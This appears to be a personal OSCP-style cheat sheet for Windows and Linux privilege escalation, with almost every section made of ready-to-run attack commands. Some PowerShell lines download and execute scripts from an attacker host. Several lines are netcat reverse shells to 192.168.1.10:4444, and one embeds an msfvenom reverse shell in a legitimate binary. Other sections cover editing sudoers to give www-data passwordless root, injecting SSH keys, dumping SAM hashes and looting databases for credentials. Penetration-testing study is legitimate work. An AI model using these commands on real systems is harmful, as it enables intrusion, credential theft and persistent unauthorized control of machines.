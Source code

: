 # General
- Always try dump and default passwords for users on the system
- Always search source code for DB credentials ands loot the hell out of the db, looking for creds.
- Always enumerate users and try and known password for that user

Good overview for resources

https://xapax.gitbooks.io/security/

Basically just a dump of unstructured OSCP knowledge with some helpful items

https://github.com/doffensive/wired-courtyard

# Windows
## Tips and Hints
- .JOB files are scheduled jobs which are not registered with the schtasks.

## Main Enumeration Scripts
```batch
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"

Rem need to transfer both accesschk.exe and powerless.bat to the machine.
accesschk.exe
powerless.bat
```

## Powershell
Running Local Commands
```powershell
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"

powershell -ExecutionPolicy ByPass -command "& { . Z:\PowerUp.ps1; Invoke-AllChecks }"
```
Running commands from a remote host
```powershell
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.139/Invoke-MS16-032.ps1'); Invoke-MS16-032"
```

## File Transfer

SMB
```batch
net use * \\10.11.0.56\draedis /User:root <PASSWORD>
```

FTP - Run script and copy and paste output to terminal window
```bash
$SCRIPTS/ftp_pull.sh <filename to download>
#ftp_push will push files from windows to kali
```

Powershell - Run script and copy and paste to terminal window
```bash
$SCRIPTS/powershell_dl.sh <file to download>
```

VBScript - Run script and copy and paste to terminal window, then run download on terminal window
```bash
# Kali
$SCRIPTS/win_wget_vb.sh
```
```batch
REM Windows
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

PsExec for On Remote Machine
```batch
 C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

Powershell window to Run as a different user
```powershell
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

Runas (e.g. su) for Windows with other creds. CAN'T PASS PASSWORD THO!
```batch
 C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
 Attempting to start nc.exe as user "COMPUTERNAME\Test" ...
 ```

Compile python exploits to .exe for windows
```bash
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
 ```

## Pre-Compiled Exploits
https://github.com/SecWiki/windows-kernel-exploits

## embed msfvenom code into existing binaries
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.1 LPORT=4444 -x /usr/share/windows-binaries/radmin.exe -k -f exe > radmin.exe
```

## Steal SAM from image (or backup image)
```bash
mount <image> /mnt/mountpoint
cd /mnt/mountpoint/Windows/system32/config
samdump2 SYSTEM SAM
```

## Cheat Sheets
Mother Script

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

Quick Items to Check

https://github.com/ibr2/pwk-cheatsheet#windows-privilege-escalation

OSCP based Guides

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_windows.html

https://github.com/xapax/security/blob/master/privilege_escalation_windows.md

###
# Linux
## Tips and Hints
### Main Enumeration Scripts
```bash
export A=http://<IP>
export H=http://<IP>:8000
cd /tmp
wget $A/LinEnum.sh
bash LinEnum.sh

...

linux-exploit-suggester.sh
linux-exploit-suggester2.pl
linuxprivchecker.py
```

Upgrade shells
```python
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=linux
```
https://netsec.ws/?p=337

Check all files for ones that may be interesting (like authorized_keys)

Check SUID programs for ones that do not belong

Check sudo permissions

If run as root, get sudo permissions as low priv user
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

Find an app that is run as root and managle the path (setuid program for example). Think periodic script which runs (cron) or is already running
 ```bash
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
 ```

Always use google site:exploit-db.com <kernel_ver> to search for vulnerabilities, since not all are reported in the scripts. All vulns *should* be in searchsploit.
- `linux-exploit-suggester.sh` == most recent, but offline
- `linuxprivchecker.py` == good, but old exploits 
```bash
searchsploit "Linux Kernel"  
searchsploit linux 2.6 | grep -i ubuntu | grep local 
```

Compiling binaries on Kali for old distros
```
gcc 3.c -o 3 -static -Wl,--hash-style=sysv -m32
```
Only need static if there is a CRuntime Libc2.7 error

## SSH Key Injection
Try and add a key to a writeable authorized key file
```bash
echo "SSH_PUBLIC_KEY" >> /path/to/.ssh/authorized_keys
```

## Pre-Compiles Exploits
https://github.com/SecWiki/linux-kernel-exploits

## Cheat Sheets
Mother Script

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Some Quick Things to check

https://github.com/ibr2/pwk-cheatsheet#linux-privilege-escalation


Full, OSCP tailored a little

https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html






